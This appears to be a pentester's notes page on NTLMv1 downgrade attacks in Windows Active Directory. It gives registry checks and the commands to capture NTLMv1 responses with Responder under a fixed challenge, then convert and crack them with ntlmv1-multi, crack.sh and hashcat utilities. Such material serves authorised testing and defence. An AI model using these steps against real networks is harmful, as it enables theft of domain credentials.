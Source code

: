 # NTLMv1 Downgrade

- [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
- [https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/](https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)

Client sends NTLMv1 response when `LmCompatibilityLevel` exists and is `2` or lower, which can be downgraded to "NTLMv1 w/o SSP" when `NtlmMinClientSec` is `0x20` or lower:

| Property Name                                                                                                                                                          | Property Path                                      |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------|
| [LmCompatibilityLevel](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`        |
| [NtlmMinClientSec](http://systemmanager.ru/win2k_regestry.en/85673.htm)                                                                                                | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0` |




## Check

Check with PowerShell:

```
PS > (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name LmCompatibilityLevel).LmCompatibilityLevel
2
PS > $decValue = (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ -Name NtlmMinClientSec).NtlmMinClientSec
PS > $hexValue = "0x" + [string]::Format("{0:x}", $decValue)
PS > $hexValue
0x20
```

Check with [Seatbelt](https://github.com/GhostPack/Seatbelt/blob/fa0f2d94a049d825bef77e103e33167250ed2ac0/Seatbelt/Commands/Windows/NtlmSettingsCommand.cs#L149) ([example](https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt)):

```
Cmd > .\Seatbelt.exe NTLMSettings
```




## Exploit

{% content-ref url="/pentest/infrastructure/ad/authentication-coercion.md" %}
[authentication-coercion.md](authentication-coercion.md)
{% endcontent-ref %}

Exploit with Responder with a known challenge of `1122334455667788` (see **Authentication Coercion** to trigger callbacks):

```
$ sudo ./Responder.py -I eth0 -v --lm --disable-ess
```




## ntlmv1-multi + crack.sh

- [https://crack.sh/netntlm/](https://crack.sh/netntlm/)
- [https://crack.sh/get-cracking/](https://crack.sh/get-cracking/)
- [https://crack.sh/cracking-ntlmv1-w-ess-ssp/](https://crack.sh/cracking-ntlmv1-w-ess-ssp/)
- [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)

Calculate the token:

```
$ python ntlmv1.py --ntlmv1 '<NTLMv1_RESPONSE_STRING>'
```

Check the final 2 bytes (4 characters) of the NT hash:

```
$ ~/tools/hashcat-utils/src/ct3_to_ntlm.bin <CT3> 1122334455667788
```
